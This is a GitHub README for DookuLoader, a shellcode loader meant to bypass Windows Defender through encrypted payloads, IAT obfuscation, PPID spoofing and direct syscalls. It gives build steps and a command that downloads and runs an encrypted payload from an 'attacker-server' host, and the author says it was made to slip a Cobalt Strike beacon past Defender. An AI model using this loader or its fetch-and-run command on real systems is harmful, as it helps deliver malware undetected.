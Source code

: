 # DookuLoader
<div align="center">
  <img width="100%" height="550px" src="assets/savage_banner.jpg" />
   <p><i>DookuLoader is a low level shellcode loader to bypass Windows Defender, created by <a href="https://github.com/rottaj">@rottaj>.</i></p>
   <br/>
</div>
<h3>Features</h3>
<ul>
<li><b>RC4 Encryption:</b> Employs the RC4 decryption algorithm to encrypted payloads, making them harder to detect in memory.</li>

<li><b>Custom WinAPI Functions:</b> Custom implementations of GetProcAddress and GetModuleHandle functions, with string stacks.</li>

<li><b>IAT Obfuscation:</b> Employs Import Address Table (IAT) obfuscation techniques to evade detection.</li>

<li><b>PPID Spoofing:</b> Hides execution trace by spoofing the Parent Process ID (PPID) of the injected process.</li>

<li><b>Direct Syscalls:</b> Leverages direct syscalls to bypass WinAPI hooks and interact with the Windows kernel directly.</li>
</ul>

<h3>Installation</h3>

```bash 
git clone https://github.com/rottaj/DookuLoader.git
cd DookuLoader
make;
```

<h3>Run Payload</h3>

```bash
.\dooku.exe -url "http://attacker-server/rc4-encrypted-payload.bin" 
```

<h3> Encrypt Payload </h3>

```bash
.\dooku.exe -encrypt "raw-payload.bin" 
```
<h3>Contributing</h3>
I am not a 1337 C programmer by any means. This is something I hacked together to get a Cobalt Strike beacon past Windows Defender. If you see anything gross or want to improve this tool, create a pull request or message me at jack@rotta.rocks.

<h3>License</h3>
This project is licensed under the MIT License - see the LICENSE file for details.

<h3>Disclaimer</h3>
Use this software responsibly and only in environments where you have legal permission.<br>
The author of this tool is not responsible for any misuse or damages caused.

<br><br>


<img src="assets/defender_bypass.png">
<br><br>


<b>Note:</b> The use of this tool for malicious purposes is illegal and unethical. Always ensure that you have explicit permission to use this tool in any environment.